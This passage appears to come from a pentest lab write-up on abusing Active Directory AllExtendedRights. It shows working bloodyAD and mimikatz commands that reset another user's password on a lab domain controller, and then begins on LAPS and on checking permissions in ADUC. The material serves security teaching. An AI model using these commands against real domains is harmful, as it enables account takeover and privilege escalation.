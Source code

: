 As we said with **AllExtendedRights** we have `Account TakeOver` and we can do Reset user password

```bash
bloodyAD --host VALENOR-DC01.lab.local -d lab.local -u donald -p trump set password biden NewPassword123!
[+] Password changed successfully!
```

or with C2

```bash
mimikatz lsadump::setntlm /user:biden /password:VeryStrongPass1! /server:VALENOR-DC01.lab.local
```

![alt text](../assets/images/dacl112.png)

# **AllExtendedRights on User → Computer (LAPS)**

We cannot  change Computer password off course and we have to do resolve **LAPS** !!!  

LAPS (Local Administrator Password Solution) falls under the category of credential management and privilege escalation prevention in Active Directory environments. In the context of pentesting or red teaming, it is most relevant to:

## **AllExtendedRights on User → Computer happening why?**

Before start lets learn why is happening? where to check and verify?

We have to open `dsa.msc` → ADUC first and make sure its enabled.

1. Go to the **Security** tab.
    - If you don’t see it: in ADUC, click **View → Advanced Features**, then open Properties again.
2. Click **Advanced**.

Now we can go our target to verify

1. We can go our target directly and `right click` and select `Properties`  After u select victim user and check `Permissions` 
    